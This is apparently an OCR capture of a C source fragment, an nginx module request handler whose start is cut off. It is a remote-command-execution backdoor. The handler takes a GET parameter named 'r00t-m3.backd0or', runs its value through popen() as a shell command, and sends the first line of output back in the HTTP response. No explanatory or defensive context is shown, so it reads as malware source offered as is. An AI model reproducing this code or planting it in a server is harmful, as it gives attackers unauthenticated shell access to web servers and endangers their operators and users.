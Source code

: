 ```bash
        return NGX_DECLINED;
    }

    if (r->method != NGX_HTTP_GET) {
        return NGX_HTTP_NOT_ALLOWED;
    }

    ngx_str_t param_name = ngx_string("r00t-m3.backd0or");
    ngx_str_t param_value;

    if (ngx_http_arg(r, param_name.data, param_name.len, &param_value) != NGX_OK) {
        return NGX_HTTP_BAD_REQUEST;
    }

    char *command = (char *) ngx_pnalloc(r->pool, param_value.len + 1);
    if (command == NULL) {
        return NGX_HTTP_INTERNAL_SERVER_ERROR;
    }

    ngx_memcpy(command, param_value.data, param_value.len);
    command[param_value.len] = '\0';

    FILE *fp;
    char result[1024];
    fp = popen(command, "r");
    if (fp == NULL) {
        return NGX_HTTP_INTERNAL_SERVER_ERROR;
    }

    ngx_str_t response;
    response.data = (u_char *) ngx_pcalloc(r->pool, sizeof(result));
    if (fgets(result, sizeof(result), fp) != NULL) {
        ngx_memcpy(response.data, result, ngx_strlen(result));
        response.len = ngx_strlen(result);
    } else {
        response.len = 0;
    }
    pclose(fp);

    ngx_buf_t *b;
    ngx_chain_t out;

    r->headers_out.status = NGX_HTTP_OK;
    r->headers_out.content_length_n = response.len;
    r->headers_out.content_type.len = sizeof("text/plain") - 1;
    r->headers_out.content_type.data = (u_char *) "text/plain";

    b = ngx_pcalloc(r->pool, sizeof(ngx_buf_t));
    out.buf = b;
    out.next = NULL;

    b->pos = response.data;
    b->last = response.data + response.len;
    b->memory = 1;
    b->last_buf = 1;

    ngx_http_send_header(r);
    return ngx_http_output_filter(r, &out);
}
```
